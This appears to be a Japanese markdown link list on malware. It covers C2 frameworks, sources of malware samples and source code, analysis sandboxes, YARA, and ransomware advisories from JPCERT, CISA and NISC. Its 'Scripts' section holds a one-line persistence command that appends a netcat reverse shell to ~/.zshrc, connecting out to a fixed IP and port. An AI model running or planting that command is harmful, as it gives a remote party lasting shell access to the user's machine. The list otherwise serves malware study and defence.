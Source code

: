 # マルウェア

## C2

https://howto.thec2matrix.com/

https://github.com/BishopFox/sliver

## 検体の入手

[マルウェア検体を入手する方法](https://www.japan-secure.com/entry/blog-entry-198.html)

[eicar test file](https://www.eicar.org/?page_id=3950)

[SourceFinder: Finding Malware Source-Code from Publicly Available Repositories in GitHub](https://www.usenix.org/system/files/raid20-rokon.pdf)

https://virusshare.com/

https://urlhaus.abuse.ch/

https://github.com/topics/malware-samples

https://github.com/ytisf/theZoo

https://github.com/rshipp/awesome-malware-analysis

https://github.com/vxunderground/MalwareSourceCode

https://github.com/offensive-security/exploitdb

## 検体

- rootkit
  - https://github.com/enzolovesbacon/inficere
- backDoor
  - https://github.com/mosca1337/OSX-Peristant-BackDoor

## マルウェア解析

- [Free Automated Malware Analysis Sandboxes and Services](https://zeltser.com/automated-malware-analysis/)
  - https://any.run/
- https://www.sans.org/blog/how-you-can-start-learning-malware-analysis/
- [マルウェア解析に必要な素養](https://hackmd.io/@K-atc/S1kLEr5x)
- ブログ
  - https://www.mbsd.jp/research/malware/#contents
  - [東京五輪に関係する日本語のファイル名を持つマルウェア(ワイパー)の解析](https://www.mbsd.jp/research/20210721/blog/)

## Ransomeware

[Ransomware Attacks and Types – How Encryption Trojans Differ](https://www.kaspersky.com/resource-center/threats/ransomware-attacks-and-types)

[ランサムウェア攻撃で悪用された正規ツールを解説](https://blog.trendmicro.co.jp/archives/28681)

https://www.cisa.gov/stopransomware

[侵入型ランサムウェア攻撃を受けたら読むFAQ](https://www.jpcert.or.jp/magazine/security/ransom-faq.html)

## 脅威データベース

https://www.trendmicro.com/vinfo/jp/threat-encyclopedia/

https://urlhaus.abuse.ch/

## マルウェア検知ツール

https://github.com/VirusTotal/yara

https://blog.malwarebytes.com/security-world/technology/2017/09/explained-yara-rules/

https://github.com/hasherezade/hollows_hunter

## VirusTotal

https://www.virustotal.com/gui/

https://keepmealive.jp/about-virustotal/

## マルウェア、ウイルス一覧

- Emotet
  - https://www.ipa.go.jp/security/announce/20191202.html
  - https://github.com/JPCERTCC/EmoCheck
- Phoenix Cryptolocker
  - https://cloudsek.com/threatintelligence/phoenix-cryptolocker-ransomware-threat-intel-advisory/

## Scripts

```bash
# zshrc で永続化
echo '(rm ./pipe; mkfifo ./pipe; cat ./pipe | /bin/sh -i 2>&1|nc 192.168.205.3 1337 > ./pipe &)' >> ~/.zshrc

```

## YARA

https://github.com/JPCERTCC/jpcert-yara

## Development

https://github.com/redcode-labs/Coldfire

## Tools

https://github.com/sweetsoftware/Ares

## 参考

[Goで書かれたマルウェアが増加傾向--APTと犯罪グループの両方が利用](https://japan.zdnet.com/article/35167172/)

[ストップ！ ランサムウェア　ランサムウェア特設ページ - NISC](https://security-portal.nisc.go.jp/stopransomware/)

[Ransomware as a Service Innovation Curve](https://www.coveware.com/blog/2022/1/26/ransomware-as-a-service-innovation-curve)
